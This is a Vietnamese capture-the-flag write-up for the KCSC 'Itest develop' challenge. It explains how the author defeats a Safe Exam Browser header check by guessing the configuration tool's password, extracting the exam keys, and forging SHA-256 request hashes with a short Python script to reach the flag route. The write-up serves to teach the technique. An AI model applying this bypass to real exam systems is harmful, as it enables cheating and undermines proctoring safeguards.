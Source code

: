 # Itest develop

![itest-develop](images/itest-develop.png)
![itest-develop-1](images/itest-develop-1.png)

## Solution

Thử thách này mình làm theo hướng unintended. Ý tưởng của mình đó là dùng trình duyệt để truy cập vào `http://itest.kcsc.tf:10003` thay vì dùng SEB.

Trước tiên, mình đọc file `app.js` trong source code được cung cấp. Mình chú ý tới đoạn code sau:

```js
await fastify.register(fp((fastify, opts, next) => {
    fastify.addHook('onRequest', async (req, reply) => {
        let configKeyHash = calculateConfigKeyHash(fastify.config.CONFIG_KEY, `http://${req.headers.host}:10003${req.url}`)
        let broswerExamKeyHash = calculateBrowserExamKeyHash(fastify.config.BROWSER_EXAM_KEY, `http://${req.headers.host}:10003${req.url}`)
        if (req.headers['x-safeexambrowser-configkeyhash'] !== configKeyHash || req.headers['x-safeexambrowser-requesthash'] !== broswerExamKeyHash) {
            reply.type('text/html').status(403).send('pls use on safe exam browser')
        }
    })
    next()
}))
```

Có thể thấy rằng đoạn code bên trên đảm bảo chúng ta phải sử dụng Safe Exam Browser mới có thể truy cập được vào URL. Nó thực hiện so sánh giá trị của header `x-safeexambrowser-configkeyhash` với `configKeyHash` và của header `x-safeexambrowser-requesthash` với `broswerExamKeyHash` mỗi khi có request. Nếu một trong hai cặp giá trị này khác nhau thì thứ chúng ta nhận về sau request sẽ chỉ là dòng chữ "pls use on safe exam browser".

Mình bắt request sau đó thêm 2 headers vào để kiểm tra thử:

![itest-develop-2](images/itest-develop-2.png)

Vậy liệu có thể bypass đoạn code kiểm tra bên trên không?

Mình tìm tới phần định nghĩa 2 hàm `calculateConfigKeyHash()` và `calculateBrowserExamKeyHash()`:

```js
const calculateConfigKeyHash = (configKey, url) => {
    return sha256(url + configKey)
}

const calculateBrowserExamKeyHash = (broswerKey, url) => {
    return sha256(url + broswerKey)
}
```

Hai hàm trên tuy tên khác nhau nhưng cũng chỉ thực hiện cùng một việc là tính toán mã hash sha256 của chuỗi gồm request URL `http://${req.headers.host}:10003${req.url}` và `fastify.config.CONFIG_KEY` hay `fastify.config.BROWSER_EXAM_KEY`.

Vậy giờ mình sẽ tìm cách lấy được 2 key.

Mình vào SEB Configuration Tool để lấy Browser Exam Key và Configuration Key. Tuy nhiên, để có thể vào được thì nó yêu cầu nhập mật khẩu:

![itest-develop-3](images/itest-develop-3.png)

Mình thử các mật khẩu dễ đoán thì với `KCSC` là mật khẩu đúng.

Vào được ứng dụng, mình di chuyển đến tab Exam để lấy được 2 keys:

![itest-develop-4](images/itest-develop-4.png)

Đã có được 2 keys, mình có thể kết hợp với request URL để tạo ra chuỗi mã hoá sha256 chính xác để đưa vào request header `x-safeexambrowser-configkeyhash` và `x-safeexambrowser-requesthash`.

Bởi vì khi request đến một URL khác thì chuỗi hash sẽ thay đổi nên mình có đoạn script python sau để tạo cho nhanh:

```python
from hashlib import sha256
import sys

CONFIG_KEY = "5b313e5ef1dea742dbc11f173c0a84dc56a3b8ac7307731f2e8dd622d053ae4c"
BROWSER_EXAM_KEY = "cc6fce94d8af935b2367e82ca10f4ce3e2dffdb3c96a20fb95931951327626ea"

input1 = sys.argv[1] + CONFIG_KEY
input2 = sys.argv[1] + BROWSER_EXAM_KEY

print("x-safeexambrowser-configkeyhash:", sha256(input1.encode('utf-8')).hexdigest())
print("x-safeexambrowser-requesthash:", sha256(input2.encode('utf-8')).hexdigest())
```

Mình chạy script để tạo 2 headers phù hợp khi request đến `http://itest.kcsc.tf:10003/`:

```text
┌──(kali㉿kali)-[~]
└─$ python hash.py http://itest.kcsc.tf:10003/
x-safeexambrowser-configkeyhash: 1ccc354e52405d81f0e214ad4a14648858e1f365a150d80698cace88c1e48af4
x-safeexambrowser-requesthash: a7372538471a9010ad9d4d9fd5f7a46b0a0bf03d0f774730bdf20200e09f52ec
```

Thêm 2 headers trên vào rồi gửi request, mình đã thành công thấy được giao diện trang chủ:

![itest-develop-5](images/itest-develop-5.png)

Vậy đã có thể bypass thành công.

Mình tiếp tục đọc file `app.js`, tập trung vào đoạn code ở cuối để có thể lấy được flag:

```js
fastify.get('/get-flag', async function (request, reply) {
    let uuid4 = uuid.v4()
    await request.session.reload()
    await uuidb.set(request.session.sessionId, uuid4)
    await request.session.save()
    await reply.status(302).redirect(`/flag/${uuid4}`)
})

fastify.get('/flag/:uuid', function (request, reply) {
    let uuid = uuidb.get(request.session.sessionId)
    request.session.destroy()
    if (uuid === request.params.uuid) {
        reply.send(fastify.config.FLAG)
    } else {
        reply.status(401).send('forbidden')
    }
})
```

Khi mình truy cập tới route `/get-flag` thì một UUID sẽ được tạo ra, sau đó phiên làm việc sẽ được lưu lại và redirect đến route `/flag/:uuid` với tham số `uuid` vừa mới được tạo.

Khi mình truy cập tới route `/flag/:uuid`, UUID sẽ được lấy từ `request.session.sessionId`, sau đó phiên của người dùng sẽ bị huỷ bỏ và so sánh UUID với giá trị của tham số `uuid` trong URL. Nếu trùng khớp, mình sẽ có được flag.

Giờ mình thử request tới `/get-flag` với 2 headers mới:

```text
┌──(kali㉿kali)-[~]
└─$ python hash.py http://itest.kcsc.tf:10003/get-flag
x-safeexambrowser-configkeyhash: 789c50c34432d19a0c23dda74f8eecb50050d61bc984fc742b4f8c6effd69eb9
x-safeexambrowser-requesthash: 651e1ffdfed8d4de959bf7e6520393be1da1d7ecff71347944eec39ceb073691

```

![itest-develop-6](images/itest-develop-6.png)

Có thể thấy rằng, server tạo một cookie `sessionId` sau đó redirect chúng ta tới `/flag/f99d6397-286f-492b-9ada-b671b412c591`.

Như vậy, mình sẽ thêm `sessionId` vào header `cookie` và đổi mới 2 headers lần cuối để lấy flag:

```text
┌──(kali㉿kali)-[~]
└─$ python hash.py http://itest.kcsc.tf:10003/flag/f99d6397-286f-492b-9ada-b671b412c591
x-safeexambrowser-configkeyhash: 91a270e235a882f024f1eda37ba711238e1a687b659863f8c3b5dd0aec0d4821
x-safeexambrowser-requesthash: 0389bce1a2c26283c28779f05f8c2737473755517c39831bf27806b246a4a16b
```

![itest-develop-7](images/itest-develop-7.png)

## Flag

`KCSC{-Ban-Da-Bi-Dinh-Chi-Thi-Mon-Nay-17c6c806-173f-45dd-b7bf-9f33f849df21}`
